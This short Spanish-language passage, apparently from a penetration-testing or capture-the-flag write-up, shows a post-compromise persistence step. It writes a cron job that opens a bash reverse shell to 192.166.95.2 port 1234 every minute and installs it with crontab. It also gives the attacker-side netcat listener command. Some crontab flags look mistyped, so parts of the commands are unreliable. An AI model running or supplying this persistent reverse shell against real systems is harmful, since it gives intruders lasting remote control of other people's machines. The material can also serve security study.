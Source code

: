 
----
>Una vez estamos dentro

- Cada minuto nos suelta una pedazo de shell
```bash
echo " * * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.166.95.2/1234 0>&1'" > cron
crontab -i cron
crontab -1
```

- En la atacante
```bash
nc -nvlp 1234
```